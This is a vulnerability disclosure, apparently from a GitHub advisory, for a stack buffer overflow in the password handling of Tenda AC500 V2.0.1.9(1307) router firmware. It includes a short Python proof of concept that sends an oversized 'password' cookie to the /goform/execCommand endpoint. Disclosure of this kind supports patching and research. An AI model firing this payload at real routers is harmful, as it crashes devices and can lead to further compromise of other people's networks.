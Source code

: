 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail--2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware has a stack overflow vulnerability in the `R7WebsSecurityHandler` function. The `src` variable receives the `password` parameter from a POST request and is later assigned to the `v19` variable, which is fixed at 128 bytes. However, since the user can control the input of `password`, the statement `strcpy(v19, src);` can cause a buffer overflow. The user-provided  `password` can exceed the capacity of the `v19` array, triggering this security vulnerability.

![image-20240319133933045](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133933045.png)

![image-20240319133855725](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133855725.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"password=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410100105349.png)